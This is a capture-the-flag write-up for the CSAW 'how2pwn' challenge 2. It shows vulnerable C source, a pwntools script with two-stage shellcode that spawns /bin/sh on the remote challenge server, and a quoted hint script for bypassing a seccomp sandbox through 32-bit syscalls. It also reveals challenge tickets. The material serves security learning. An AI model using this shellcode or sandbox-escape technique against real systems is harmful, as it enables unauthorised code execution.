




# how2pwn - Challenge 2

Categories: Pwn

**Tags:** pwn, shellcode, PIE shellcode, 2-stage shellcode

## Takeaways

- When you hijack the control flow, always check your current registers for values that are convenient to your exploitation.
- Two-stage shellcode

## Solution

Let's take a look at the source code:

```c
#include<stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
void panic(char *s){
    puts(s);
    _exit(1);
}
void checkin(){ 
    // Solved the previous challenge, and find the ticket in "/flag"
    char real_ticket[0x30] = {0};
    char your_ticket[0x30] = {0};
    int f = open("./ticket",0);
    if(f<0)
        panic("[-] Fail to open tickect");
    read(f,real_ticket,0x20);
    read(0,your_ticket,0x20);
    close(f);
    if(strncmp(real_ticket,your_ticket,0x20))
        panic("[-] Wrong Ticket");
    return ; 
}
void init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    checkin();
}
int main(){
    init();
    char buf[0x100];
    puts("Enter your shellcode: ");
    read(0, buf, 0x10); 
    // Sorry I am too lazy to type an additional "0"
    void (* p )(); 
    p = (void (*)())buf;
    p();
    return 0;
}
```

As we can see, in order to solve this challenge we need to first have the ticket from challenge1: `764fce03d863b5155db4af260374acc1`. Aside from that, this challenge is identical to challenge1, except that we have `0x10` bytes to write our shellcode instead of `0x100`. So, how will we proceed?

We will create a 2-stage shellcode. The first stage will invoke the `read` system call to read the 2nd stage and then jump to it. The 2nd stage will be the same as in challenge1 - spawn a shell. Let's see if the binary is non-PIE and where would be a convenient place to write our 2nd stage payload.

```bash
nikos@ctf-box:~/how2pwn$ checksec --file=./public/bin/all/chal2
[*] '~/how2pwn/public/bin/all/chal2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
nikos@ctf-box:~/how2pwn$ readelf --wide --segments ./public/bin/all/chal2 | grep -ie RWE
  GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
```

So, the binary is actually PIE. Maybe when we jump to our 1st-stage shellcode the registers already have convenient values. The `read` system call has syscall number 0 and the following signature: `ssize_t read(unsigned int fd, char __user *buf, size_t count)`. Let's break at `call rdx` and examine the registers:



As you can see, a few interesting things are going on:

* `rax` which is the register for the syscall number is already set to 0, which corresponds to the `read` syscall
* `rdi` is 0, which corresponds to the `fd` argument. File descriptor 0 is the `stdin`.
* The breakpoint is at the `call rdx` instruction. As you can see, `rdx` and `rsi` have the same value. `rsi` is the register that points to the memory area where we will place our 2nd stage shellcode. We can simply use its current value. This means that we will overwrite the stage1 shellcode when the `read` system call will get executed, and then execution will fall-through to stage2 without the need for a jump.

So, let's write our shellcode now using pwntools and send it to the target:

```python
def craft_shellcode_stage1():
    # ssize_t read(unsigned int fd, char __user *buf, size_t count)
    # stdin = 0
    shellcode = asm('''
        mov edx, 0x100
        syscall
    ''')

    padded_shellcode = shellcode + b'\x90'*(0x10 - len(shellcode)) # pad with NOPs
    assert(len(padded_shellcode) == 0x10)
    return padded_shellcode

def craft_shellcode_stage2():
    return b'A'*0x100 # dummy payload

ticket1 = b'764fce03d863b5155db4af260374acc1'
if args['REMOTE']:
    remote_server = 'how2pwn.chal.csaw.io'
    remote_port = 60002
    io = remote(remote_server, remote_port)
else:
    io = start()

stage1_shellcode = craft_shellcode_stage1()
stage2_shellcode = craft_shellcode_stage2()

io.send(ticket1)
io.recvuntil(b'Enter your shellcode: ')
io.send(stage1_shellcode) # invokes read()
io.send(stage2_shellcode) # feeds the above read() syscall
io.interactive()
io.close()
```

<table>
<tr>
<td align="center" width=50%>



`syscall` from Stage 1 is about to be executed

</td>
<td align="center" width=50%>



Exactly stepped 1 instruction. The `read()` system call overwrote the previous shellcode and its contents afterwards. In this case `b'A'*0x100` was written.

</td>
</tr>

</table>

As you can see, we have successfully invoked `read()`, overwrote stage1 shellcode, and execution fell-through to stage2. Let's use an appropriate stage2 shellcode that spawns a shell, just like we did in challenge1:

```python
def craft_shellcode_stage2():
    shellcode = asm('''
    xor     rdx, rdx
    lea rbx, [rip+binsh]
    mov     rdi, rbx
    push    rdx
    push    rbx
    mov     rsi, rsp
    mov     eax, 0x3b
    syscall

    hang:
    jmp hang

    /************* Data section *************/
    binsh:
    .ascii "/bin/sh\\0"
    ''')
    padded_shellcode = b'\x90'*7 + shellcode + b'\x90'*(0x100-7 - len(shellcode)) # pad with NOPs. We also overwrite the stage1 shellcode, which is 7 bytes long.
    assert(len(padded_shellcode) == 0x100)
    return padded_shellcode
```

<table>
<tr>
<td align="center" width=50%>


`syscall` from Stage 1 is about to be executed

</td>
<td align="center" width=50%>



Exactly stepped 1 instruction. The `read()` system call overwrote the previous shellcode and its contents afterwards. The stage2 invokes `execve("/bin/sh")`.

</td>
</tr>

</table>


Once we send our payload to the server, we are presented with the ticket and also a hint for the next challenge:

````bash
# Stage 2

!(2/4)!

# Ticket
8e7bd9e37e38a85551d969e29b77e1ce

# Hints

```py
from pwn import *
# context.log_level='debug'
debug = 0
if debug:
    p = process("./chal3")
else:
    # p = remote("how2pwn.chal.csaw.io",60003)
    p = remote("0.0.0.0", 60003)
with open("./ticket3",'r') as f:
    ticket = f.read().strip()
p.send(ticket)

# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# 1. In this challenge, you can't open a file because of the strict sandbox
# 2. But there is a vul about the sanbox, it doesn't check the syscall arch.
# 3. We can use x86 syscalls to bypass it. All x86 syscalls: https://syscalls32.paolostivanin.com/
# 4. You may find x86 can't visite x64 address because x64 address is too long to be stored in the x86 register. However, we still have syscall_mmap, which could allocate a chunk of memory, for example 0xcafe000, so we can visite this address in x86 mode.
# 5. There is a demo for retf: https://github.com/n132/n132.github.io/blob/master/code/GoogleCTF/S2/XxX/pwn.S


context.arch = 'amd64'

shellcode = f'''
xor rax,rax
mov al, {syscall num of mmap}
mov rdi,{4-byte-address}
mov rsi,0x2000
mov rdx,0x7
mov r10,0x21
xor r8,r8
xor r9,r9
syscall

xor rdi,rdi
mov rsi,{ address of memory where you want to put your x86 shellcode }
mov rdx,0x1000
{ set rax to call sys_read }
syscall

{ return to x86, *Hint 5* }
'''

# gdb.attach(p)
shellcode = asm(shellcode)+b'\xcb'# \xcb is retf
print("[+] len of shellcode: "+str(len(shellcode)))
p.sendafter(": \n",shellcode.ljust(0x100,b'\0'))

context.arch='i386'
context.bits=32
flag_path_1 = hex(u32(b"/fla"))
flag_path_2 = hex(u32(b"g\0\0\0"))
shellcode=f'''
mov esp, {your new stack}
mov eax, 0x5
push {flag_path_2}
push {flag_path_1}
mov {a register which would store the filename},esp
xor ecx,ecx
xor edx,edx
int 0x80

mov ebx,{File Descriptor of FLAG}
mov al,0x3
mov ecx,{buffer to store the content}
mov edx,{length of the buffer}
int 0x80

{write the flag!}
int 0x80
'''
# input()
shellcode = asm(shellcode)
print("[+] len of shellcode: "+str(len(shellcode)))

p.send(shellcode)
p.interactive()
p.close()
````

So the ticket is `8e7bd9e37e38a85551d969e29b77e1ce`
